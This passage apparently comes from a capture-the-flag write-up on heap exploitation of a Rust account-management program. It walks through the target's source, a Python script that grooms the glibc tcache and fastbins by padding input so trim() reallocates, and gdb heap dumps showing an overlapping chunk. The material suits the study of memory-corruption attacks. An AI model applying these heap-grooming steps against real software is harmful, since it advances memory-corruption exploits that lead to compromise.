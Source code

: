 ```rust
fn new_account(accounts: &mut Store<String, Account>) {
    if let (Some(acct_id), Some(full_name)) = (prompt_for("Account ID: "), prompt_for("Full Name: ")) {
        let result = could_panic!((|| {
            accounts.set(acct_id, Account { full_name: full_name.clone(), balance: 0 });
<snip>
}
```
Ah. Here we see an extra copy (clone) of the `full_name`, likely so it can be printed (this explains why some of the earlier numbers to fill the tcache
had to be experimentally found). But `acct_id` is moved, so it wouldn't explain this. Let's look at `prompt_for`.

```rust
fn prompt_for(s: &str) -> Option<String> {
    let mut input = vec![];
<snip>
    let input_s = String::from_utf8(input).ok()?;
    return Some(input_s.trim().to_string())
}
```
Ohh. `from_utf8` doesn't make any extra copies, only verifiying the data, but `trim().to_string()` does. If we could make the input string
larger than the trim, it should hopefully free that allocation when growing, letting the trimed string take it.

```python
for i in range(6):
    t = pop_id(foureight, 1)
    new_acct(t, b'')
    p.clean()

bypass_trim = pop_id(foureight, 1).ljust(128, b' ')
# trim technique to only allocate once in bin
new_acct(bypass_trim, b'')
p.clean()

# we still need to free bad_chunk once more,
# so it goes to the tcache and not the fastbin
run_funds()
p.clean()
```


```
(gdb) heapinfoall

(0x20)     fastbin[0]: 0x56460e1d9d30 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x56460e1da6c0 (overlap chunk with 0x56460e1da6c0(freed) )
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x56460e1da920 (size : 0x1d6e0)
       last_remainder: 0x56460e1da140 (size : 0x30)
            unsortbin: 0x0
(0x20)   tcache_entry[0](7): 0x56460e1da650 --> 0x56460e1da5f0 --> 0x56460e1da590 --> 0x56460e1da530 --> 0x56460e1da4d0 --> 0x56460e1da0f0 --> 0x56460e1da6b0
(0x30)   tcache_entry[1](1): 0x56460e1da150
(0x40)   tcache_entry[2](1): 0x56460e1da6d0
(0x60)   tcache_entry[4](1): 0x56460e1da430
(0x80)   tcache_entry[6](1): 0x56460e1d7480
```